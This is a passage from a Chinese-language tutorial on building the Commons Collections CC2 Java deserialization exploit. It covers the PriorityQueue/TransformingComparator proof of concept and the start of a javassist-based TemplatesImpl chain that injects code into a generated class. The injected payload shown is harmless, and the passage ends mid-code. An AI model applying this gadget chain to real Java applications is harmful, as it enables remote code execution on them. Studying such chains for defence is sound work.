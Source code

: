 ```java
            outputStream.writeObject(queue);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc2"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
}
```

一些构造POC的问题：

1. 为什么要 add 两个值进去？

   ![1](/img/341.png)

   即让 size>>>1 之后减一之后要大于等于 0 ，既让 size>1，

2. 为什么要在 add 之后才通过反射修改 comparator 的值?

   ![1](/img/342.png)

   跟进 offer 方法：

   ![1](/img/343.png)

   这里调用了 siftUp：

   ![1](/img/344.png)

   这里需要保证 comparator 的值为 null，才能够正常的添加元素进 queue，如果我们在 add 之前使 comparator 为我们构造好的TransformingComparator，就会报这么一个错误：

![1](/img/345.png)

#### 利用链2

yso 在 cc2 中用到的是 TemplatesImpl 这个类，这里需要用到 javassist 的知识，例如：

```java
import javassist.*;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

public class javassist_test {
    public static void createPseson() throws Exception {

        ClassPool pool = ClassPool.getDefault();
        CtClass cc = pool.makeClass("Cat");
        String cmd = "System.out.println(\"evil code\");";
        // 创建 static 代码块，并插入代码
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        // 写入.class 文件
        cc.writeFile();
    }

    public static void main(String[] args) {
        try {
            createPseson();
        } catch (Exception e) {
            e.printStackTrace();
```